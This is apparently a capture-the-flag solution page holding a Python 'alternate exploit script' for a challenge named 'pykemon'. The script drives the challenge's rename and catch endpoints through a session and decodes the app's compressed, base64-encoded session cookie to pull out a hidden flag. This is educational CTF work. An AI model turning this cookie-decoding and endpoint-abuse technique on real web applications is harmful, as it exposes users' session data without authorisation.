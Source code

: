 Alternate exploit script

```python3
import requests
import base64
import zlib
import json
import re

class D:
    pass

d = D()

d.s = requests.session()
d.url = "http://pykemon.chal.pwning.xxx/"

def get_cookie_object():
    for c in d.s.cookies:
        if c.name == "session":
            return c

def rename(name, new_name):
    return d.s.post(d.url + "rename/", data={
        'name': name,
        'new_name': new_name
    }).text

def catch(name):
    return d.s.post(d.url + "catch/", data={
        'name': name
    }).text

def clear_session():
    d.s = requests.session()

def get_room():
    global d
    return d.s.get(d.url)

def decode_session():
    global d
    cookie = get_cookie_object()
    if cookie == None:
        return None
    cookie = cookie.value
    return json.loads(zlib.decompress(base64.urlsafe_b64decode(cookie.split(".")[1] + "===")))
    
def get_pykemon():
    data = decode_session()
    if data == None:
        return None
    return data["room"]["pykemon"]

def get_pykemon_el(pykemon, el):
    return base64.urlsafe_b64decode(pykemon[el][" b"]).decode("utf-8")

def find_flag():
    p = get_pykemon()
    if p == None:
        return None
    for mon in p:
        if get_pykemon_el(mon, "name") == "FLAG":
            return get_pykemon_el(mon, "description")
```